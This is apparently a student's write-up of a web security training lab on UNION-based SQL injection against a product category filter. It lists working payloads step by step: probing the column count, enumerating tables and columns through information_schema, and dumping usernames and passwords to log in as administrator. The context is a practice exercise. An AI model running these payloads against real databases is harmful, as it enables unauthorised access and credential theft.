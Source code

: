 # Lab 05 :  SQL injection attack, listing the database contents on non-Oracle databases

## Overview:
- Level : PRACTITIONER
- SQL Injection on product category filter
- Union attack
- End Goal : Determine the name of this table and the columns And  log in as the administrator user. 



## Analysis:
- put ' as product category it give 500 internal server error


## Solution:
- determine number of column
    ' UNION SELECT 'def'-- gives 500 internal server error
    ' UNION SELECT 'def','adfs'-- gives 200 ok responce
    so there are two column

- to get details about tables
    ' UNION SELECT table_name,NULL FROM information_schema.tables--

- users_cwlcoo table contains username and passwords

- to get columns name of users_cwlcoo table
    ' UNION SELECT column_name,NULL FROM information_schema.columns  WHERE table_name='users_cwlcoo'--

- columns
    username_gkoixc
    password_rlklus
    email

- get usernames and passwords
    ' UNION SELECT username_gkoixc,password_rlklus FROM users_cwlcoo--
